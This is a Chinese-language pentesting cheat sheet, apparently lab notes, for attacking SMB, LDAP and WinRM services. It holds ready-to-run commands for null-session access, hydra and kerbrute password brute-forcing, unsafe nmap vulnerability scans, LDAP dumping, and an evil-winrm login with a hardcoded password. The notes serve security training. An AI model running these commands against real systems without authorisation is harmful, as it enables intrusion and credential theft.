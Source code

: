 # 常见端口运行服务



## 6379: redis

## 445/139:smb

```bash
smbclient '\\10.10.10.175\IPC$' ""#kali
net use \\192.168.1.1\ipc$ "" /u:""# windows
```



### 爆破

```bash
hydra -L user.txt  -P /usr/share/wordlists/fuzzDicts-master/passwordDict/top6000.txt 10.10.10.175 smb
```



### 信息收集

```bash
enum4linux -a $IP
```



### 打cve

```
nmap $IP -sV -Pn -vv -p 139,445 --script=smb-vuln* --script-args=unsafe=1
```

msf中的一堆cve+永恒之黑



## 389, 636, 3268, 3269:ldap

### 信息收集

```bash
nmap -n -sV --script "ldap* and not brute" <IP> #get public message

pip install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]



```



### 爆破

```bash
nmap --script ldap-brute [--script-args passdb|userdb="filename"]  -p 389 <IP>
kerbrute -users user.txt -domain EGOTISTICAL-BANK.LOCAL -dc-ip 10.10.10.175 
kerbrute -user xxxx -domain EGOTISTICAL-BANK.LOCAL -dc-ip 10.10.10.175 -passwords filename
# 先枚举用户名再爆破密码
```







### 配置文件

```
General:
containers.ldif
ldap.cfg
ldap.conf
ldap.xml
ldap-config.xml
ldap-realm.xml
slapd.conf
IBM SecureWay V3 server:
V3.sas.oc
Microsoft Active Directory server:
msadClassesAttrs.ldif
Netscape Directory Server 4:
nsslapd.sas_at.conf
nsslapd.sas_oc.conf
OpenLDAP directory server:
slapd.sas_at.conf
slapd.sas_oc.conf
Sun ONE Directory Server 5.1:
75sas.ldif
```

## 5985,5986 WinRM(wsman)

类似ssh的服务，连接后获得powershell



 https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm 

```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>

```

